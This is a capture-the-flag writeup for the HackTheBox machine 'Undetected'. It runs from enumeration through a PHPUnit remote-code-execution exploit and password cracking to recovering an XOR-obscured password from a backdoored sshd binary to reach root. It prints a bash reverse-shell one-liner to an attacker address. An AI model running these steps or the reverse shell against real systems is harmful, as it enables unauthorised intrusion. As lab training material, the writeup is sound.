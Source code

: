 # Undetected HackThebox Writeup
### Level: `Medium` | OS: `Linux`

![logo](1.png)

## Scanning
We run nmap on all ports with scripts and software versions.

![](2.png)

## Enumeration
We access the website and review the different sections and the source code.

![](3.png)

We see a section called "*store*", it shows a direct link and we can list a valid subdomain.

![](4.png)

We add the subdomain to our file "*/etc/hosts/*.

We access the store subdomain and we see an online shopping cart.

![](5.png)

According to them, the site does not accept orders, so they may have another web resource on another subdomain, we tried to take out subdomains by forcing vhost, but without success.

![](6.png)

We launch the **dirsearch** tool, we manage to list multiple paths where directory listing usually exist.

![](7.png)

##### Example of directory listing:
![](8.png)


## Exploitation
We checked the software versions in the "*installed.json*" file for vulnerabilities and exploits, and found that **PHP Unit version 4.0.8** is vulnerable to remote code execution (RCE).

![](9.png)

#### Exploit: [PHP Unit 4.8.28 - Remote Code Execution (RCE) (Unauthenticated) - PHP webapps Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/50702)

We download and run the exploit, we see that it works perfectly in this proof of concept.

![](10.png)

We put a **netcat** and run a reverse shell to have a more interactive one.

![](11.png)

##### Code used:
```bash
/usr/bin/bash -c "bash -i >& /dev/tcp/10.10.XX.XX/443 0>&1"
```

We searched for files and found the "*info*" file in backups, it looks like it is running a **bash** with a hexadecimal string.

![](12.png)

Decoding the content, we see that a script is being executed in which a hash of a user is hardcoded. 

![](13.png)

We put the hash in a file and crack it with **john**:

![](14.png)

We check the "*/etc/passwd*" and find the users, try the password with both users and one works. 

We see that we can also read the flag of *user.txt*.

![](15.png)


## Privilege Escalation
We launch the **linpeas.sh** script to perform a deep and fast reconnaissance of the system, we see that it is vulnerable to *Polkit* and *Pwnkit*, but we will try not to exploit these paths.

![](16.png)

We identify the user *Steven's* path to his mailbox.

![](17.png)

We read the email left by the root user, it seems that they are having difficulties with the **Apache service** and the website, while they investigate the problem they have left a temporary password to authenticate us on the server. But where?   

![](18.png)

Assuming the team is scared, I assume that file is one of the last things they have modified or deployed to the server. So we look for the last modified files by date, we find a library called "*mod_reader.so*":

![](19.png)

We transfer it to our machine and use **strings** on it, we find a string that looks like **base64**:

![](20.png)

We see that the **wget** binary is being executed on an image and on the **sshd** binary, but this does not make any sense... Unless that **sshd** is not what it looks like.

![](21.png)

We transfer the **sshd** binary, compare the hashes and see that they are different, so it could be the file we are looking for "*camouflaged*" in the system.

![](22.png)

We open the file with **Ghidra**, list a function called "*backdoor*" and it seems to contain an authentication for the **SSH** service.

![](23.png)

In this code trace it is very clear, it is performing a comparison of both strings, therefore it is validating a password that is hardcoded in the binary.

![](24.png)

We reviewed the code of the "*backdoor*" function, we found several variables with **hexadecimal** values:

![](25.png)

Then we see that there is a loop where it is storing the content of the previous variables and computing them in **XOR** with the key "*0x96*" in **hexadecimal**.

![](26.png)

We used the online tool **Cyberchef**, inserted the parameters and managed to obtain the password in plain text.

![](27.png)

We connect via **SSH** with the root user and read the *root.txt* file:

![](28.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)